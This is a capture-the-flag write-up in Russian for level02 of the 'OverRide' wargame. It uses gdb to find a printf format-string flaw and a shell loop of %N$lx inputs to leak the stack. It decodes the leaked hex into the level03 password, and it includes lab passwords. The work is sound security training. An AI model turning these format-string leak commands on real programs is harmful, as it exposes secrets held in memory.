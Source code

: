 [back](../defense.md)

```
su level02
Password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Запускаем программу level02

```
level02@OverRide:~$ ./level02
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: admin
	--[ Password: admin
	*****************************************
	admin does not have access!
```

Нужен доступ. При этом в консоль выводится имя, мы вводим.  

Возможно, удастся использовать эту уязвимость.

Посмотрим код проги.

```
gdb level02
(gdb) disas main
	Dump of assembler code for function main:
	0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
	0x0000000000400aa7 <+659>:	mov    $0x400d3a,%edi
	0x0000000000400aac <+664>:	callq  0x400680 <puts@plt>
	0x0000000000400ab1 <+669>:	mov    $0x1,%edi
	0x0000000000400ab6 <+674>:	callq  0x400710 <exit@plt>	
	End of assembler dump.
```

Действительно вызывается printf. Попробуем распечатать стек.

Для этого используем оператор управления потоком, перенаправляя данные в нашу прогу и отсортировывая лишнее:

```
for i in {1..80}; do echo \%$i\$lx | ~/level02 | grep "does not have access"; done
	0 does not have access!
	0 does not have access!
	0 does not have access!
	100000000 does not have access!
	0 does not have access!
	756e505234376848 does not have access!
	45414a3561733951 does not have access!
	377a7143574e6758 does not have access!
	354a35686e475873 does not have access!
	48336750664b394d does not have access!
	0 does not have access!
	786c24383225 does not have access!
	0 does not have access!
	0 does not have access!
```

Среди прочего находим строки, содержащие шестнадцетеричный код.

Перевернем их и переведем через таблицу ASCII символов.

1.	756e505234376848 => 4868373452506e75 => Hh74RPnu

2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE

3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7

4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5

5.	48336750664b394d => d4394b6650673348 => M9KfPg3H

```
level02@OverRide:~$ python -c "print ''.join([v.decode('hex')[::-1] for v in ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']])"
	Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H, проверим, подходит ли пароль к следующему уровню.

```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```

Доступ открыт.

```
level03@OverRide:~$ cd /home/users/level03
level03@OverRide:~$ ls
```

[back](../defense.md)
